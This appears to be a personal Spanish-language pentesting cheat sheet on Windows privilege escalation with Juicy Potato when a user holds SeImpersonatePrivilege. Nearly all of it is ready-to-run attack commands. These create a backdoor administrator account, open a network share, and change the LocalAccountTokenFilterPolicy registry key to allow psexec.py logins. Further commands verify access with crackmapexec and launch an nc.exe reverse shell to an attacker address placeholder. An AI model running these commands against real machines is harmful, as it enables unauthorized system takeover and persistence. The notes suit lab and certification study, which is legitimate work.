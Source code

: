 # Juicy Potato 

Cuando tenemos el Privilegio "Se Impersonate Privilege" en un Usuario, procedemos a usar Juicy Potato

# Sintaxis Creando un Nuevo Usuario a nivel de sistema
E introduciendolo en el grupo Admins

```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user paco paco1234$ /add"

Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup administrators paco /add"
```

# Procedemos a comprobar el usuario con `Crackmapexec`
En busca del pwned, chequeamos...
```bash
crakmapexec smb IP -u paco -p paco123$
```

Si NO resulta pwned 

# Sintaxis creando un nuevo recurso compartido a nivel de red

Se Tenso por aqui
```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share paco_folder=C:\Windows\Temp\privilege /add"
```

# Modificando el Registro Oportuno

Para conseguir el Pwned y poder utilizar `PSEXEC.PY`
```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

# Psexec.py

Una vez seguidos los pasos el usiario Paco deberia estar Pwned y podriamos lanzarnos una Shell.
```bash
# psexec.py WORKGROUP/paco@10.11.1.13 cmd
```

# JuicyPotato para ejecutar un comando

En caso de que tuviesemos un nc.exe descargado, lanzarnos una RevShell
```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd (OUR IP PORT)
```

Tambien esta el rottenpotato.exe que veremos mas adelante.
